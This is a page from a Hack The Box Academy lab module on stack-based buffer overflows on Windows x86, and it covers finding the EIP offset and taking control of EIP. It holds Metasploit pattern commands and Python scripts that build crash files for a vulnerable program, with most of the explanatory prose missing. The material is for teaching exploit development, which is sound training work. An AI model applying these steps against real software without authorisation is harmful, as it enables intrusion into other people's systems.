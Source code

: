 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/89/section/946
// Platform Version: V1
// Module ID: 89
// Module Name: Stack-Based Buffer Overflows on Windows x86
// Module Difficulty: Medium
// Section ID: 946
// Section Title: Controlling EIP
// Page Title: Hack The Box - Academy
// Page Number: 4
-->

# Controlling EIP

**Module Name:** Stack-Based Buffer Overflows on Windows x86 **Page Number:** 4

#### 

#### STACK-BASED BUFFER OVERFLOWS ON WINDOWS X86

# Controlling EIP

## EIP Offset

## Creating Unique Pattern

``` shell-session
[!bash!]$ /usr/bin/msf-pattern_create -l 5000

Aa0Aa1Aa2...SNIP...3Gk4Gk5Gk
```

``` cmd-session
--Pattern
Generates a non repeating pattern. A pattern of pure ASCII characters can be generated up to 20277 and up to  
66923 if special characters are used. The offset of a particular string can be found inside the pattern by 
providing a search string (must be at least 3 chars long).
    Pattern create: ERC --pattern <create | c> <length>
    Pattern offset: ERC --pattern <offset | o> <search string>
```

![https://academy.hackthebox.com/storage/modules/89/win32bof_erc_pattern_create_1.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_erc_pattern_create_1.jpg)

## Writing Our Exploit

``` python
def eip_offset():
    payload = bytes("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac"
                    ...SNIP...
                    "Gi3Gi4Gi5Gi6Gi7Gi8Gi9Gj0Gj1Gj2Gj3Gj4Gj5Gj6Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk",
					"utf-8")
```

``` python
with open('pattern.wav', 'wb') as f:
        f.write(payload)
```

``` python3
eip_offset()
```

![https://academy.hackthebox.com/storage/modules/89/win32bof_python_idle_exploit_2.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_python_idle_exploit_2.jpg)

## Calculating EIP Offset

![https://academy.hackthebox.com/storage/modules/89/win32bof_x32dbg_restart.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_x32dbg_restart.jpg)

![https://academy.hackthebox.com/storage/modules/89/win32bof_pattern_eip.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_pattern_eip.jpg)

``` shell-session
[!bash!]$ /usr/bin/msf-pattern_offset -q 31684630

[*] Exact match at offset 4112
```

![https://academy.hackthebox.com/storage/modules/89/win32bof_pattern_eip_ascii.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_pattern_eip_ascii.jpg)

![https://academy.hackthebox.com/storage/modules/89/win32bof_pattern_offset.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_pattern_offset.jpg)

![https://academy.hackthebox.com/storage/modules/89/win32bof_pattern_offset_findnrp.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_pattern_offset_findnrp.jpg)

## Controlling EIP

``` python
def eip_control():
    offset = 4112
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip
    
    with open('control.wav', 'wb') as f:
        f.write(payload)

eip_control()
```

![https://academy.hackthebox.com/storage/modules/89/win32bof_control_eip.jpg](https://academy.hackthebox.com/storage/modules/89/win32bof_control_eip.jpg)

# 

# 

#### Questions

####